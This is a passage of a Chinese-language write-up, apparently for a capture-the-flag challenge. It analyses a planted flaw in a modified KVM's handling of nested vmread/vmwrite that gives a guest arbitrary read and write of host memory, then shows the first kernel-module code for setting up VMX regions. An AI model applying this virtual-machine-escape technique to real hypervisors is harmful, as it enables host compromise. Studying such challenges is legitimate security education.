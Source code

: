 ```c
    ((type *)(__mptr - offsetof(type, member))); })

```

漏洞点
---

- handle\_vmwrite会从第struct kvm\_vcpu的arch.db\[0\]对应的内容，如果是0x1337BABE，然后会取第struct kvm\_vcpu的arch.db\[1\]对应的内容为dr，然后会取第struct kvm\_vcpu的arch.db\[2\]对应的内容赋值给 struct vmcs12 *+8*dr对应的地址所在内容
    
    `*（struct vmcs12 *+8*struct kvm_vcpu的arch.db[0]）=struct kvm_vcpu的arch.db[2]`
- handle\_vmread会从第struct kvm\_vcpu的arch.db\[0\]对应的内容，如果是0x1337BABE，然后会取第struct kvm\_vcpu的arch.db\[1\]对应的内容为dr，然后会将 struct vmcs12 *+8*dr对应的地址的内容赋值给struct kvm\_vcpu的arch.db\[2\]
    
    `struct kvm_vcpu的arch.db[2]= *（struct vmcs12 *+8*struct kvm_vcpu的arch.db[0]）`

可以相对struct vmcs12 \*的任意地址读写，而且这个 vmcs12指向的是我们在虚拟机分配的vmcs在主机上的地址，为什么呢？因为这个地方是处理虚拟机执行vmx指令的，而vmread指令是从控制的虚拟机的vmcs里读取相关字段，而虚拟机执行vmread会陷入到主机的vmm中去，然后再去处理虚拟机的vmread，所以这里的vmcs自然也是虚拟机控制的虚拟机的VMCS了

这就相当于主机的任意地址读写了（但这里的struct kvm\_vcpu \*vcpu还是虚拟机的，不是虚拟机里的虚拟机的）

思路
==

vmx相关初始化
--------

[vmx指令相关使用](https://wiki.osdev.org/VMX#VMCS)

为了能够执行 vmread/vmwrite 指令，需要进行一些设置。vmread 和 vmwrite 指令用于与“虚拟机控制结构”(VMCS) 交互，在虚拟机机中执行就是和嵌套虚拟机的VMCS交互，所以首先虚拟机要开启VMX模式（嵌套虚拟机化），这样才能嵌套虚拟化，所以没有嵌套虚拟机的VMCS，自然vmread指令和vmwrite无法使用

首先是分配并初始化VMXON Region和嵌套虚拟机实例对应的VMCS Region

```c
    vmxon_page = kmalloc(4096, GFP_KERNEL);
    memset(vmxon_page, 0, 4096);
    vmcs_page = kmalloc(4096, GFP_KERNEL);   
    memset(vmcs_page, 0, 4096);
    vmxon_page_pa = virt_to_phys(vmxon_page);
    vmcs_page_pa = virt_to_phys(vmcs_page);
    printk("vmxon_page %p --- vmxon_page_pa %p",vmxon_page,vmxon_page_pa);
    printk("vmcs_page %p --- vmcs_page_pa %p",vmcs_page,vmcs_page_pa);
```

然后是设置vmxon\_page 和vmcs\_page的开头信息，读MSR寄存器的指令是rdmsr，这条指令使用eax，edx，ecx作为参数，ecx用于保存MSR寄存器相关值的索引，而edx，eax分别保存结果的高32位和低32位。该指令必须在ring0权限或者实地址模式下执行；否则会触发#GP(0)异常。在ecx中指定一个保留的或者未实现的MSR地址也会引发异常。这里根据索引读到vmcs\_revision的值，然后保存到vmxon\_page和vmcs\_page的开头

```c
    uint32_t a, d;
    asm volatile ("rdmsr" : "=a"(a), "=d"(d) : "c"(MSR_IA32_VMX_BASIC) : "memory");
    uint64_t vmcs_revision=a | ((uint64_t) d << 32);
    printk("vmcs_revision %p",vmcs_revision);
    *(uint64_t *)(vmxon_page) = vmcs_revision;
    *(uint64_t *)(vmcs_page) = vmcs_revision;
```
